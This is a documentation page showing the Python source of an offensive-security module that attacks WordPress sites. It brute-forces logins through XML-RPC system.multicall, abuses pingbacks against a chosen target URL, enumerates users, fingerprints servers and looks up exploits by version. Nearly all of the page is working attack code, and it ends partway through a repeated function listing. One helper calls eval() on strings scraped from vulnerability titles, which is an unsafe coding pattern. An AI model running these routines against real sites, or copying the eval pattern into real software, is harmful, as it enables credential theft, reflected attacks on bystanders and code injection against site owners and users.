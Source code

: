<body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.scanners.cms.wp</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.scanners.cms.utils import *




def wp_xmlrpc_methods(
    u, user_agent=None, cookie=None, path=&#34;/xmlrpc.php&#34;, timeout=10, proxy=None,headers={}
):
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;
 &lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt; 
&lt;methodCall&gt; 
&lt;methodName&gt;system.listMethods&lt;/methodName&gt; 
&lt;params&gt;&lt;/params&gt; 
&lt;/methodCall&gt;
&#34;&#34;&#34;
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        return [
            x.replace(&#34;&lt;/string&gt;&lt;/value&gt;&#34;, &#34;&#34;).replace(&#34;&lt;value&gt;&lt;string&gt;&#34;, &#34;&#34;).strip()
            for x in r.text.split(&#34;&lt;data&gt;&#34;)[1].split(&#34;&lt;/data&gt;&#34;)[0].strip().split(&#34;\n&#34;)
        ]
    except:
        pass
    return []


def wp_xmlrpc_bruteforce(
    u, user_agent=None, cookie=None, path=&#34;/xmlrpc.php&#34;, timeout=10, proxy=None,headers={}
):
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;
 &lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt; 
&lt;methodCall&gt; 
&lt;methodName&gt;system.listMethods&lt;/methodName&gt; 
&lt;params&gt;&lt;/params&gt; 
&lt;/methodCall&gt;
&#34;&#34;&#34;
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        if &#34;wp.getUsersBlogs&#34; in [
            x.replace(&#34;&lt;/string&gt;&lt;/value&gt;&#34;, &#34;&#34;).replace(&#34;&lt;value&gt;&lt;string&gt;&#34;, &#34;&#34;).strip()
            for x in r.text.split(&#34;&lt;data&gt;&#34;)[1].split(&#34;&lt;/data&gt;&#34;)[0].strip().split(&#34;\n&#34;)
        ]:
            return True
    except:
        pass
    return False


def wp_xmlrpc_mass_bruteforce(
    u, user_agent=None, cookie=None, path=&#34;/xmlrpc.php&#34;, timeout=10, proxy=None, headers={}
):
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;
 &lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt; 
&lt;methodCall&gt; 
&lt;methodName&gt;system.listMethods&lt;/methodName&gt; 
&lt;params&gt;&lt;/params&gt; 
&lt;/methodCall&gt;
&#34;&#34;&#34;
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        l = [
            x.replace(&#34;&lt;/string&gt;&lt;/value&gt;&#34;, &#34;&#34;).replace(&#34;&lt;value&gt;&lt;string&gt;&#34;, &#34;&#34;).strip()
            for x in r.text.split(&#34;&lt;data&gt;&#34;)[1].split(&#34;&lt;/data&gt;&#34;)[0].strip().split(&#34;\n&#34;)
        ]
        if (&#34;wp.getUsersBlogs&#34; in l) and (&#34;system.multicall&#34; in l):
            return True
    except:
        pass
    return False


def wp_xmlrpc_pingback(
    u,
    user_agent=None,
    test_url=&#34;https://www.google.com/&#34;,
    cookie=None,
    path=&#34;/xmlrpc.php&#34;,
    timeout=10,
    proxy=None,
    headers={}
):
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;
 &lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt; 
&lt;methodCall&gt; 
&lt;methodName&gt;system.listMethods&lt;/methodName&gt; 
&lt;params&gt;&lt;/params&gt; 
&lt;/methodCall&gt;
&#34;&#34;&#34;
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        l = [
            x.replace(&#34;&lt;/string&gt;&lt;/value&gt;&#34;, &#34;&#34;).replace(&#34;&lt;value&gt;&lt;string&gt;&#34;, &#34;&#34;).strip()
            for x in r.text.split(&#34;&lt;data&gt;&#34;)[1].split(&#34;&lt;/data&gt;&#34;)[0].strip().split(&#34;\n&#34;)
        ]
        if &#34;pingback.ping&#34; in l:
            return True
    except:
        pass
    return False


def wp_xmlrpc_pingback_exploit(
    u,
    user_agent=None,
    target_url=&#34;https://www.google.com/&#34;,
    cookie=None,
    path=&#34;/xmlrpc.php&#34;,
    timeout=10,
    proxy=None,
    headers={}
):
    url = u.split(&#34;://&#34;)[0] + &#34;://&#34; + urlparse(u).netloc
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    url += path
    post = (
        &#34;&#34;&#34;&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34;?&gt;
&lt;methodCall&gt;
&lt;methodName&gt;pingback.ping&lt;/methodName&gt;
&lt;params&gt;
&lt;param&gt;
&lt;value&gt;&lt;string&gt;&#34;&#34;&#34;
        + target_url
        + &#34;&#34;&#34;&lt;/string&gt;&lt;/value&gt;
&lt;/param&gt;
&lt;param&gt;
&lt;value&gt;&lt;string&gt;&#34;&#34;&#34;
        + u
        + &#34;&#34;&#34;&lt;/string&gt;&lt;/value&gt;
&lt;/param&gt;
&lt;/params&gt;
&lt;/methodCall&gt;
&#34;&#34;&#34;
    )
    try:
        r = requests.Session().post(
            url, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
    except:
        pass


def wpadmin(
    u,
    username,
    password,
    user_agent=None,
    cookie=None,
    path=&#34;/xmlrpc.php&#34;,
    timeout=10,
    proxy=None,
    headers={}
):
    &#34;&#34;&#34;
    this function is to check the wordpress given logins using the xmlrpc.php file. if they are correct it returns True, else False&#34;&#34;&#34;
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;&lt;methodCall&gt;
&lt;methodName&gt;wp.getUsersBlogs&lt;/methodName&gt;
&lt;params&gt;
&lt;param&gt;&lt;value&gt;{}&lt;/value&gt;&lt;/param&gt;
&lt;param&gt;&lt;value&gt;{}&lt;/value&gt;&lt;/param&gt;
&lt;/params&gt;
&lt;/methodCall&gt;&#34;&#34;&#34;.format(
        username, password
    )
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        if &#34;isAdmin&#34; in r.text:
            return True
    except:
        pass
    return False


def wpadmin_mass(
    u,
    word_list=[],
    user_agent=None,
    cookie=None,
    path=&#34;/xmlrpc.php&#34;,
    timeout=10,
    proxy=None,
    headers={}
):
    &#34;&#34;&#34;
    this function is to check the wordpress given logins using the xmlrpc.php file. if they are correct it returns True, else False&#34;&#34;&#34;
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    u += path
    post = &#34;&#34;&#34;
 &lt;?xml version=&#34;1.0&#34;?&gt;
&lt;methodCall&gt;&lt;methodName&gt;system.multicall&lt;/methodName&gt;&lt;params&gt;&lt;param&gt;&lt;value&gt;&lt;array&gt;&lt;data&gt;
 &#34;&#34;&#34;
    for x in word_list:
        post += &#34;&#34;&#34;&lt;value&gt;&lt;struct&gt;&lt;member&gt;&lt;name&gt;methodName&lt;/name&gt;&lt;value&gt;&lt;string&gt;wp.getUsersBlogs&lt;/string&gt;&lt;/value&gt;&lt;/member&gt;&lt;member&gt;&lt;name&gt;params&lt;/name&gt;&lt;value&gt;&lt;array&gt;
  &lt;data&gt;&lt;value&gt;&lt;array&gt;&lt;data&gt;&lt;value&gt;&lt;string&gt;{}&lt;/string&gt;&lt;/value&gt;&lt;value&gt;&lt;string&gt;{}&lt;/string&gt;&lt;/value&gt;
  &lt;/data&gt;&lt;/array&gt;&lt;/value&gt;&lt;/data&gt;&lt;/array&gt;&lt;/value&gt;&lt;/member&gt;&lt;/struct&gt;&lt;/value&gt;
&#34;&#34;&#34;.format(
            x.split(&#34;:&#34;)[0], x.split(&#34;:&#34;)[1]
        )
    post += &#34;&#34;&#34;
&lt;/data&gt;&lt;/array&gt;&lt;/value&gt;&lt;/param&gt;&lt;/params&gt;&lt;/methodCall&gt;
 &#34;&#34;&#34;
    try:
        r = requests.Session().post(
            u, data=post, headers=hed, proxies=proxy, timeout=timeout, verify=False
        )
        l = (
            r.text.split(&#34;&lt;array&gt;&lt;data&gt;&#34;)[1]
            .split(&#34;&lt;/array&gt;&lt;/data&gt;&#34;)[0]
            .strip()
            .split(&#34;&lt;/struct&gt;&lt;/value&gt;&#34;)
        )
        for x in l:
            if &#34;Incorrect username or password&#34; not in x:
                return word_list[l.index(x)]
    except:
        pass
    return &#34;&#34;


def wp_users(
    u, path=&#34;/wp-json/wp/v2/users&#34;, timeout=10, user_agent=None, cookie=None, proxy=None, headers={}
):
    &#34;&#34;&#34;
    this function is to get WP users&#34;&#34;&#34;
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    u += path
    try:
        r = requests.Session().get(u, headers=hed, proxies=proxy, timeout=timeout, verify=False)
        if (&#39;{&#34;id&#34;:&#39; in r.text) and (&#39;&#34;name&#34;:&#34;&#39; in r.text):
            a = json.loads(r.text)
            users = []
            for x in range(len(a)):
                users.append(
                    {&#34;id&#34;: a[x][&#34;id&#34;], &#34;slug&#34;: a[x][&#34;slug&#34;], &#34;name&#34;: a[x][&#34;name&#34;]}
                )
            return users
    except Exception as e:
        return []
    return []


def wp_user(
    u,
    path=&#34;/wp-json/wp/v2/users/&#34;,
    user=1,
    user_agent=None,
    cookie=None,
    timeout=10,
    proxy=None,
    headers={}
):
    &#34;&#34;&#34;
    this function is to return all informations about a WP user with a given index integer&#34;&#34;&#34;
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    hed.update(headers)
    u += path + str(user)
    try:
        r = requests.Session().get(u, headers=hed, proxies=proxy, timeout=timeout, verify=False)
        if (&#39;{&#34;id&#34;:&#39; in r.text) and (&#39;&#34;name&#34;:&#34;&#39; in r.text):
            return json.loads(r.text)
    except Exception as e:
        pass


def wp_users_enumeration(
    u,
    path=&#34;/&#34;,
    timeout=15,
    user_agent=None,
    cookie=None,
    proxy=None,
    start=1,
    end=20,
    logs=True,
    headers={}
):
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    d = u.split(&#34;://&#34;)[1].split(&#34;/&#34;)[0]
    u = u.split(d)[0] + d
    l = []
    for x in range(start, end + 1):
        try:
            r = requests.Session().get(
                u + path + &#34;?author=&#34; + str(x),
                headers=hed,
                proxies=proxy,
                timeout=timeout,
                verify=False,
            ).text
            a = r.split(&#39;&lt;meta property=&#34;og:title&#34; content=&#34;&#39;)[1].split(&#34;&gt;&#34;)[0]
            b=r.split(&#39;&lt;meta property=&#34;og:url&#34; content=&#34;&#39;)[1].split(&#34;&gt;&#34;)[0]
            c=b.split(&#39;/author/&#39;)[1].split(&#39;/&#39;)[0]
            if &#34;,&#34; in a:
                a = a.split(&#34;,&#34;)[0]
                l.append({&#39;id&#39;:x, &#39;name&#39;:a,&#39;slug&#39;:c})
                if logs == True:
                    print(
                        &#34;\t[+] id: {} | name: {} | slug: {}&#34;.format(
                            x,#.encode(&#34;utf-8&#34;, &#34;replace&#34;), 
                            a,
                            c
                        )
                    )
        except KeyboardInterrupt:
            break
        except:
            pass
    return l


def wp_version(u, timeout=15, user_agent=None, cookie=None, proxy=None,headers={}):
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    try:
        r = requests.Session().get(
            u, headers=hed, proxies=proxy, timeout=timeout, verify=False
        ).text
        return (
            r.split(&#39;&lt;meta name=&#34;generator&#34; content=&#34;&#39;)[1]
            .split(&#39;&#34;&#39;)[0]
            .strip()
            .split(&#34; &#34;)[1]
        )
    except:
        pass



def version_string_to_list(version):
    return [int(x) for x in version.split(&#39;.&#39;)]




def extract_with_versions(cve_list,software_version):
    results = []
    for cve in cve_list:
        title = cve[&#39;title&#39;]
        try:
            version = [ x.strip() for x in title.split() if &#39;.&#39; in x and x.endswith(&#39;.&#39;)==False and x.startswith(&#39;.&#39;)==False][0]
        except:
            version=&#39;&#39;
        if version!=&#39;&#39;:
            try:
                c=title.split(version)[0].split()
                if c[-1].strip()==&#39;&lt;&#39;:
                    comparison=&#39;&lt;&#39;
                elif c[-1].strip()==&#39;&gt;&#39;:
                    comparison=&#39;&gt;&#39;
                elif c[-1].strip()==&#39;&lt;=&#39;:
                    comparison=&#39;&lt;=&#39;
                else:
                    comparison=&#39;==&#39;
            except:
                comparison=&#39;==&#39;
        if version==&#39;&#39;:
            version=software_version
        if &#39;-&#39; not in version:
            if eval(&#39;{}{}{}&#39;.format(version_string_to_list(software_version),comparison,version_string_to_list(version)))==True:
                results.append(cve)
        else:
            if eval(&#39;{}&gt;{} and {}&lt;{}&#39;.format(version_string_to_list(software_version),version_string_to_list(version.split(&#39;-&#39;)[0].strip()),version_string_to_list(software_version),version_string_to_list(version.split(&#39;-&#39;)[1].strip())))==True:
                results.append(cve)
    return results




def fetch_wp_exploits(s,max_tries=3,proxy=None,user_agent=None,timeout=15,cookie=None,sleep_time_min=10,sleep_time_max=20,when_blocked_sleep=30):
    if s[&#39;version&#39;].strip()==&#39;&#39;:
        return []
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    i=1
    l=[]
    result=[]
    tries=0
    while True:
        tries+=1
        #print(tries)
        if tries==max_tries:
            break
        try:
            r=requests.Session().get(&#39;https://wpscan.com/search?page={}&amp;text={}&#39;.format(i,s[&#39;name&#39;]),headers=hed,timeout=timeout,proxies=proxy,verify=False).text
            #print(r)
            data=json.loads(r.split(&#39;&#34;pageData&#34;:{&#34;props&#34;:{&#34;data&#34;:&#39;)[1].split(&#39;,&#34;metadata&#34;:{&#34;pageCount&#34;:&#39;)[0])
            if len(data)==0:
                break
            l+=data
            i+=1
            tries=0
        except Exception as ex:
            #raise(ex)
            time.sleep(when_blocked_sleep)
        time.sleep(random.randint(sleep_time_min,sleep_time_max))
    for x in l:
        x[&#39;exploit_url&#39;]=&#39;https://wpscan.com/vulnerability/&#39;+x[&#39;id&#39;]
    return extract_with_versions(l,s[&#39;version&#39;])



def get_wp_infos(u,max_wpscan_tries=3,cookie=None,user_agent=None,timeout=15,proxy=None,user_enum_start=1,user_enum_end=20,wpscan_cookie=None,sleep_time_min=10,sleep_time_max=20,when_blocked_sleep=30,logs=True,crt_timeout=120,wayback_timeout=120,subdomain_check_timeout=10,max_wayback_urls=10,subdomains_only=True,headers={},api_key=None):
    domain=u.split(&#39;://&#39;)[1].split(&#39;/&#39;)[0].split(&#39;:&#39;)[0]
    root_domain=extract_root_domain(domain)
    ip=socket.gethostbyname(domain.split(&#39;:&#39;)[0])
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    response = requests.Session().get(u, headers=hed, proxies=proxy, timeout=timeout, verify=False)
    server=response.headers.get(&#39;Server&#39;,&#39;&#39;)
    try:
        server_os=[x for x in server.split() if x.startswith(&#39;(&#39;)==True][0].replace(&#39;(&#39;,&#39;&#39;).replace(&#39;)&#39;,&#39;&#39;)
    except:
        server_os=&#39;&#39;
    backend=response.headers.get(&#39;X-Powered-By&#39;,&#39;&#39;)
    html_content = response.text

    # Parse the HTML content
    soup = BeautifulSoup(html_content, &#39;html.parser&#39;)

    # Find themes and plugins information
    themes = []
    plugins = []
    try:
        #print(response.split(&#39;&lt;meta name=&#34;generator&#34; content=&#34;&#39;)[1].split(&#39;&#34;&#39;)[0])
        wp_version=response.text.lower().split(&#39;&lt;meta name=&#34;generator&#34; content=&#34;wordpress&#39;)[1].split(&#39;&#34;&#39;)[0].strip()
    except Exception as ex:
        #raise(ex)
        wp_version=&#39;&#39;
    # Extract themes
    if logs==True:
        print(&#34;WordPress site info:\n\n\tURL: {}\n\tDomain: {}\n\tIP: {}\n\tServer: {}\n\tOS: {}\n\tBackend technology: {}\n\tWordPress version: {}\n&#34;.format(u,domain,ip,server,server_os,backend,wp_version))
    clickj=page_clickjacking(u,request_headers=response.headers)
    if logs==True:
        print(&#34;[i] Looking for subdomains...&#34;)
    subs=get_subdomains(root_domain,logs=logs, crt_timeout=crt_timeout,user_agent=user_agent,cookie=cookie,wayback_timeout=wayback_timeout,subdomain_check_timeout=subdomain_check_timeout,max_wayback_urls=max_wayback_urls,proxy=proxy,subdomains_only=subdomains_only)
    if logs==True:
        print(&#34;[i] Cheking if we can sniff some cookies over some links...&#34;)
        print()
    media_non_ssl=sniffable_links(u,content=response.text,logs=logs,request_headers=response.headers)
    if logs==True:
        print()
    theme_links = soup.find_all(&#39;link&#39;, rel=&#39;stylesheet&#39;)
    for link in theme_links:
        href = link.get(&#39;href&#39;)
        #print(href)
        if &#39;themes&#39; in href:
            try:
                theme_name = href.split(&#39;/themes/&#39;)[1].split(&#39;/&#39;)[0]
                try:
                    version=href.split(&#39;?&#39;)[1].split(&#39;=&#39;)[1]
                except:
                    version=&#39;&#39;
                theme={&#39;name&#39;:theme_name,&#39;version&#39;:version}
                if theme not in themes:
                    themes.append(theme)
            except:
                pass
        elif &#39;plugins&#39; in href:
            try:
                plugin_name = href.split(&#39;/plugins/&#39;)[1].split(&#39;/&#39;)[0]
                try:
                    version=href.split(&#39;?&#39;)[1].split(&#39;=&#39;)[1]
                except:
                    version=&#39;&#39;
                plugin={&#39;name&#39;:plugin_name,&#39;version&#39;:version}
                if plugin not in plugins:
                    plugins.append(plugin)
            except:
                pass
    users_json_exposed=True
    json_path=u+&#39;/wp-json/wp/v2/users&#39;
    if logs==True:
        print(&#39;[i] Fetching users from: {}&#39;.format(json_path))
    json_users=wp_users(u,timeout=timeout,cookie=cookie,user_agent=user_agent,proxy=proxy,headers=headers)
    if logs==True:
        for x in json_users:
            print(&#39;\t[+] id: {} | name: {} | slug: {}&#39;.format(x[&#39;id&#39;],x[&#39;name&#39;],x[&#39;slug&#39;]))
        print()
    if json_users==[]:
        users_json_exposed=False
    can_enumerate_users=True
    if logs==True:
        print(&#39;[i] Trying enumerating the authors...&#39;)
    enumerated_users= wp_users_enumeration(u,logs=logs,timeout=timeout,cookie=cookie,user_agent=user_agent,proxy=proxy,start=user_enum_start,end=user_enum_end,headers=headers)
    if enumerated_users==[]:
        can_enumerate_users=False
    else:
        if logs==True:
            print()
            for x in enumerated_users:
                print(&#39;\t[+] id: {} | name: {} | slug: {}&#39;.format(x[&#39;id&#39;],x[&#39;name&#39;],x[&#39;slug&#39;]))
    if logs==True:
        print()
        print(&#39;[i] Checking if XMLRPC is enabled from: {}&#39;.format(u+&#39;/xmlrpc.php&#39;))
    xmlrpcs=wp_xmlrpc_methods(u,timeout=timeout,cookie=cookie,user_agent=user_agent,proxy=proxy,headers=headers)
    can_b_u=(&#34;wp.getUsersBlogs&#34; in xmlrpcs) and (&#34;system.multicall&#34; in xmlrpcs)
    can_pb=&#34;pingback.ping&#34; in xmlrpcs
    if logs==True:
        if len(xmlrpcs)&gt;0:
            print(&#39;[+] enabled&#39;)
            if can_b_u==True:
                print(&#39;\t[+] Vulnerable to users bruteforce&#39;)
            if can_pb==True:
                print(&#39;\t[+] Vulnerable to pingback&#39;)
        else:
            print(&#39;\t[-] disabled&#39;)
        print()
    wp_vulns=[]
    if wp_version!=&#39;&#39;:
        if logs==True:
            print(&#39;[i] looking for exploits for version: {}\n&#39;.format(wp_version))
        wpvulns=vulners_search(&#39;wordpress&#39;,version=wp_version,proxy=proxy,api_key=api_key)
        for x in wpvulns:
            if &#39;wordpress&#39; in x[&#39;title&#39;].lower() or &#39;wordpress&#39; in x[&#39;description&#39;].lower():
                wp_vulns.append(x)
        for x in wp_vulns:
            for i in [&#39;cpe&#39;, &#39;cpe23&#39;, &#39;cwe&#39;, &#39;affectedSoftware&#39;]:
                try:
                    del x[i]
                except:
                    pass
        if logs==True:
            if len(wp_vulns)==0:
                print(&#39;\t[-] none was found&#39;)
            else:
                for x in wp_vulns:
                    print(&#34;\tTitle : {}\n\tDescription: {}\n\tLink: {}&#34;.format(x[&#39;title&#39;],x[&#39;description&#39;],x[&#39;href&#39;]))
                    print()
    backend_technology_exploits={}
    if backend!=&#39;&#39;:
        bk=[]
        for back in backend.split():
            if logs==True:
                print(&#39;[i] looking for exploits for : {}\n&#39;.format(back))
            if &#39;/&#39; not in back:
                if logs==True:
                    print(&#39;\t[-] unknown version\n&#39;)
            else:
                bk=vulners_search(back.split(&#39;/&#39;)[0].lower(),version=back.split(&#39;/&#39;)[1],proxy=proxy,api_key=api_key)
            for x in bk:
                for i in [&#39;cpe&#39;, &#39;cpe23&#39;, &#39;cwe&#39;, &#39;affectedSoftware&#39;]:
                    try:
                        del x[i]
                    except:
                        pass
            backend_technology_exploits.update({back:bk})
            if logs==True:
                if len(bk)==0:
                    print(&#39;\t[-] none was found&#39;)
                else:
                    for x in bk:
                        print(&#34;\tTitle : {}\n\tDescription: {}\n\tLink: {}&#34;.format(x[&#39;title&#39;],x[&#39;description&#39;],x[&#39;href&#39;]))
                        print()
    server_exploits={}
    if server!=&#39;&#39;:
        for sv in server.split():
            if sv.startswith(&#39;(&#39;)==False:
                sv_e=[]
                if logs==True:
                    print(&#39;[i] looking for exploits for : {}\n&#39;.format(sv))
                if &#39;/&#39; in sv:
                    sv_e=vulners_search(sv.split(&#39;/&#39;)[0].lower(),version=sv.split(&#39;/&#39;)[1],proxy=proxy,api_key=api_key)
                else:
                    if logs==True:
                        print(&#39;\t[-] unknown version\n&#39;)
                for x in sv_e:
                    for i in [&#39;cpe&#39;, &#39;cpe23&#39;, &#39;cwe&#39;, &#39;affectedSoftware&#39;]:
                        try:
                            del x[i]
                        except:
                            pass
                server_exploits.update({sv:sv_e})
                if logs==True:
                    if len(sv_e)==0:
                        print(&#39;\t[-] none was found&#39;)
                    else:
                        for x in sv_e:
                            print(&#34;\tTitle : {}\n\tDescription: {}\n\tLink: {}&#34;.format(x[&#39;title&#39;],x[&#39;description&#39;],x[&#39;href&#39;]))
                            print()
    if len(themes)&gt;0:
        if logs==True:
            print(&#39;[i] looking for exploits for the themes:\n&#39;)
    for x in themes:
        if logs==True:
            print(&#39;[i] Theme: {} | Version: {}\n&#39;.format(x[&#39;name&#39;],x[&#39;version&#39;]))
        x[&#39;exploits&#39;]=fetch_wp_exploits(x,max_tries=max_wpscan_tries,proxy=proxy,user_agent=user_agent,timeout=timeout,cookie=wpscan_cookie,sleep_time_min=sleep_time_min,sleep_time_max=sleep_time_max,when_blocked_sleep=when_blocked_sleep)
        if logs==True:
            for i in x[&#39;exploits&#39;]:
                print(&#34;\tTitle: {}\n\tLink: {}&#34;.format(i[&#39;title&#39;],i[&#39;exploit_url&#39;]))
                print()
    if len(plugins)&gt;0:
        if logs==True:
            print()
            print(&#39;[i] looking for exploits for the plugins:\n&#39;)
    for x in plugins:
        if logs==True:
            print(&#39;[i] Plugin: {} | Version: {}\n&#39;.format(x[&#39;name&#39;],x[&#39;version&#39;]))
        x[&#39;exploits&#39;]=fetch_wp_exploits(x,max_tries=max_wpscan_tries,proxy=proxy,user_agent=user_agent,timeout=timeout,cookie=wpscan_cookie,sleep_time_min=sleep_time_min,sleep_time_max=sleep_time_max,when_blocked_sleep=when_blocked_sleep)
        if logs==True:
            for i in x[&#39;exploits&#39;]:
                print(&#34;\tTitle: {}\n\tLink: {}&#34;.format(i[&#39;title&#39;],i[&#39;exploit_url&#39;]))
                print()
    return {&#39;url&#39;:u,&#39;domain&#39;:domain,&#39;ip&#39;:ip,&#39;root_domain&#39;:root_domain,&#39;sub_domains&#39;:subs,&#39;server&#39;:server,&#39;os&#39;:server_os,&#39;backend_technology&#39;:backend,&#39;wordpress_version&#39;:wp_version,&#39;sniffable_links&#39;:media_non_ssl,&#39;clickjackable&#39;:clickj,&#39;themes&#39;:themes,&#39;plugins&#39;:plugins,&#39;users_json_exposed&#39;:users_json_exposed,&#39;exopsed_json_users&#39;:{&#39;users&#39;:json_users,&#39;path&#39;:json_path},&#39;can_enumerate_users&#39;:can_enumerate_users,&#39;enumerated_users&#39;:enumerated_users,&#39;enabled_xmlrpc_methods&#39;:xmlrpcs,&#34;xmlrpc_bruteforce_users&#34;:can_b_u,&#34;pingback_enabled&#34;:can_pb,&#34;exploits&#34;:wp_vulns,&#39;backend_technology_exploits&#39;:backend_technology_exploits,&#39;server_exploits&#39;:server_exploits}</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-functions">Functions</h2>
<dl>
<dt id="bane.scanners.cms.wp.extract_with_versions"><code class="name flex">
<span>def <span class="ident">extract_with_versions</span></span>(<span>cve_list, software_version)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def extract_with_versions(cve_list,software_version):
    results = []
    for cve in cve_list:
        title = cve[&#39;title&#39;]
        try:
            version = [ x.strip() for x in title.split() if &#39;.&#39; in x and x.endswith(&#39;.&#39;)==False and x.startswith(&#39;.&#39;)==False][0]
        except:
            version=&#39;&#39;
        if version!=&#39;&#39;:
            try:
                c=title.split(version)[0].split()
                if c[-1].strip()==&#39;&lt;&#39;:
                    comparison=&#39;&lt;&#39;
                elif c[-1].strip()==&#39;&gt;&#39;:
                    comparison=&#39;&gt;&#39;
                elif c[-1].strip()==&#39;&lt;=&#39;:
                    comparison=&#39;&lt;=&#39;
                else:
                    comparison=&#39;==&#39;
            except:
                comparison=&#39;==&#39;
        if version==&#39;&#39;:
            version=software_version
        if &#39;-&#39; not in version:
            if eval(&#39;{}{}{}&#39;.format(version_string_to_list(software_version),comparison,version_string_to_list(version)))==True:
                results.append(cve)
        else:
